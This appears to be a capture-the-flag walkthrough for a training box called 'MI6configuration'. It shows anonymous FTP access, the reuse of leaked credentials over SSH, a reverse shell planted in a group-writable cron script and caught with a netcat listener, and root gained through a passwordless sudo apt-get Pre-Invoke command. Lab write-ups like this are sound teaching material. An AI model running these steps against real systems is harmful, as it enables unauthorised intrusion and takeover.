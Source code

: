 ## MI6configuration
```
MI6, the British secret service, usually has very strong configurations. However, we recently acquired the IP address to James Bond's computer. Can you hack in and prove that you're a better agent then 007?
```
## Initial Access
We'll start with an `nmap` scan against the machine:
```
$ nmap 192.168.21.175 
	Nmap scan report for 192.168.21.175
	Host is up (0.0010s latency).
	Not shown: 998 closed tcp ports (reset)
	PORT   STATE SERVICE
	21/tcp open  ftp
	22/tcp open  ssh
```
We can see that there are two services, FTP and SSH. One common misconfiguration with FTP is allowing anonymous login. This allows anyone to access the files on the FTP server. We can attempt this with the following command, and not inputting a password when prompted.
```
ftp anonymous@192.168.21.175
```
It logs us in! After logging in, we can list files with `ls`:
```
ftp> ls
229 Entering Extended Passive Mode (|||48565|)
150 Here comes the directory listing.
-r--r--r--    1 33       0              28 Jan 20 21:20 flag1.txt
-r--r--r--    1 1001     0              29 Jan 20 21:20 not_my_passwords.txt
226 Directory send OK.
```
We've found our first flag, and a suspicious file. We can download both of these files with the `get` command. 
```
$ cat not_my_passwords.txt:
	james_bond:imthebestAgent007
```
`not_my_passwords.txt` seems to have a pair of credentials for `james_bond`, which we can then try to use against the SSH server. 
```
$ ssh james_bond@192.168.21.175
	james_bond@mi6configuration:~$
```
We're in! The second flag is stored in `~/secret/flag2.txt`. 
## Lateral Movement
Our enumeration for lateral movement starts with finding what other users are present on the machine. One way we can do this is my seeing what directories are in `/home`.
```
james_bond@mi6configuration:~$ ls /home
	james_bond  q  Shared
```
We can note that another user, `q` is present on the machine. There is an interesting folder also there. Let's check the ownership, and maybe the contents.
```
james_bond@mi6configuration:/home$ ls -al Shared
	total 12
	dr-xr-x--- 2 q    agents 4096 Jan 20 21:20 .
	drwxr-xr-x 5 root root   4096 Jan 20 21:20 ..
	-rwxrw---- 1 q    agents  168 Jan 20 22:24 update.sh
```
There's a shell script owned by the same user, but also the `agents` group. Let's check the members of that group.
```
james_bond@mi6configuration:/home$ getent group agents
	agents:x:1001:q,james_bond
```
Because we are part of the group, we have read and write permissions over the file. Viewing the file contents will give us more insight into what it might be doing. 
```
james_bond@mi6configuration:/home/Shared$ cat update.sh 
	#!/bin/bash
	#This command will run every two minutes and scan for running processes
	#Doing so will protect us from being hacked
	#Please do not change this file
	ps -aux
```
It seems like the file is run by a `cron job` every two minutes. Because we have write access, we might be able to add our own logic to the script. Using [revshells.com](https://revshells.com), we can generate a `bash` reverse shell and add it to the bottom of the `update.sh` file.  After a little while, we get a shell back!
```
$ nc -lvnp 1337      
	listening on [any] 1337 ...
	connect to [192.168.21.180] from (UNKNOWN) [192.168.21.175] 38770
	sh: 0: can't access tty; job control turned off
	$ whoami
	q
```
## Privilege Escalation 
Now that we have access as the `q` user, we now begin enumeration again. A common first thing to check is `sudo` privileges. 
```
$ sudo -l
	User q may run the following commands on mi6configuration:
	    (ALL) NOPASSWD: /usr/bin/apt-get
```
`q` can run `apt-get` with `sudo` without a password! We can use the following resource, [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/) to exploit this configuration. 
```
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
	whoami;id
	root
	uid=0(root) gid=0(root) groups=0(root)
```
